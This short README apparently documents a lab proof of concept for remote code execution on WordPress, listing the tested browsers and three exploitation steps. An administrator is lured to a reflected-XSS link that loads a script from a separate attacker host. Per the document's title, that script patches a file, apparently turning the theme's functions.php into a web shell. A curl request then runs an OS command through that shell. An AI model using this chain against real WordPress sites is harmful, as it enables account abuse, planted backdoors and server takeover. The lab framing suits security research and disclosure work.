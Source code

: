 # [RCE] Patch File

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. victim user (with administrative privileges) logs in

http://192.168.5.10/wp-login.php

2. victim user clicks link

```
http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.13/patchFileWP.js></script>
```

3. execute OS command

```
curl "http://192.168.5.10/wp-content/themes/twentytwentyfour/functions.php?pass=test&cmd=id"
```


## Screenshots

![Image](screenshots/WordPress_-_patch_file_-_1-1.png)
